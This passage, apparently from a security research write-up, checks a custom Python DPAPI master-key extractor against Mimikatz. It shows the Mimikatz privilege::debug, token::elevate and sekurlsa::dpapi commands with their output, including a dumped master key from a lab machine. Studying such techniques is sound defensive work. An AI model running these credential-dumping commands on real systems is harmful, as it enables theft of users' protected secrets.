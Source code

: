 To test this script, I decrypted the first entry in the master key cache list with GUID `5b31d113-c5ac-441e-bc2d-391de8323a5f` (the same one I documented above): this is the output of the Python script
```
python3 dpapiMaster.py
[~] Master Key: 1b12c4ef9cc58e5b79371243aacbeb47187267c45853a35936f8a85e4828ffac074ae0d62c39ced468d0f41c66077674a48b6cdebcf9a7a01f4b2d05e3494fab
```
and this is Mimikatz's output
```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

616     {0;000003e7} 1 D 23011          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !
 * Process Token : {0;0001cb4c} 1 F 12026358    COMMANDO\otter  S-1-5-21-4130188456-627131244-1205667481-1000   (15g,25p)       Primary
 * Thread Token  : {0;000003e7} 1 D 12178278    NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)
 
mimikatz # sekurlsa::dpapi

...

[00000001]
         * GUID      :  {5b31d113-c5ac-441e-bc2d-391de8323a5f}
         * Time      :  6/21/2024 12:48:29 PM
         * MasterKey :  1b12c4ef9cc58e5b79371243aacbeb47187267c45853a35936f8a85e4828ffac074ae0d62c39ced468d0f41c66077674a48b6cdebcf9a7a01f4b2d05e3494fab
         * sha1(key) :  4f9b43dcdaede3547fcc55815eb10f1755033456
```

ʕ •ᴥ•ʔ
